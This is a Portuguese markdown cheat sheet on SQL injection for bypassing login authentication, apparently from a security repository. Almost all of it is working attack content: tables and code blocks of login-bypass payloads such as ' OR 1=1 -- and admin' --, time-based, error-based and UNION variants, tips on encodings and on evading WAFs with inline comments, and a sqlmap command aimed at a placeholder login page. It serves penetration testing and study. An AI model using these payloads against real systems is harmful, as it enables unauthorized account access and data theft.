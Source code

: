 # SQL Injection - Authentication Bypass Cheat Sheet

> Técnicas para **bypass de login** usando **SQL Injection** em campos de autenticação.

***

### 📍 Estrutura típica de uma query de autenticação vulnerável

```sql
SELECT * FROM users WHERE username = '$user' AND password = '$pass';
```

***

### 🔐 Payloads básicos de autenticação

| Tipo                  | Payload               |
| --------------------- | --------------------- |
| Clássico (OR 1=1)     | `' OR 1=1 --`         |
| Comentário inline     | `' OR 1=1 #`          |
| Igualdade booleana    | `' OR '1'='1' --`     |
| Ignora senha          | `' OR '' = '`         |
| Explora dupla negação | `' OR NOT '1'='2' --` |

***

### 🔍 Exemplos por campo

#### 🧑 Usuário (username)

```sql
admin' -- 
admin' #
admin'/*
```

#### 🔑 Senha (password)

```sql
' or 1=1-- 
' or '1'='1
```

***

### 📌 Payloads mais complexos

```sql
' or 1=1 limit 1 -- 
' or sleep(5) -- (testa time-based blind)
```

***

### 🧪 Testes úteis

| Objetivo               | Payload                                     |
| ---------------------- | ------------------------------------------- |
| Bypass com OR          | `' or 1=1--`                                |
| Testar erro            | `' OR 1=CONVERT(int, (SELECT @@version))--` |
| Comentário com hash    | `' OR 1=1#`                                 |
| Comentário com /\* \*/ | `' OR 1=1/*`                                |
| Condicional verdadeira | `' OR 'a'='a`                               |
| Condicional falsa      | `' AND 'a'='b`                              |

***

### 🔂 Variantes usando UNION ou subselects

```sql
' UNION SELECT 1, 'anotheruser', 'pass'-- 
```

***

### 🧼 Observações

* **`--`** é usado para comentar o restante da SQL query.
* **`#`** também funciona como comentário em MySQL.
* Pode ser necessário **escapar aspas** ou usar **diferentes formas de encoding**.
* Em alguns casos, você pode usar **`/**/`** entre palavras-chave para evadir WAFs.

***

### 🧠 Recomendações de uso

* Teste diferentes **tipos de comentários** (`--`, `#`, `/* */`)
* Teste diferentes **códigos de escape**, como `%27`, `\'`, `''`
* Verifique **respostas do servidor** para identificar SQLi (erro, delay, conteúdo alterado)

***

### 🧪 Dica extra: automatize com SQLMap

```bash
sqlmap -u "http://target/login.php" --data "username=admin&password=admin" --batch
```
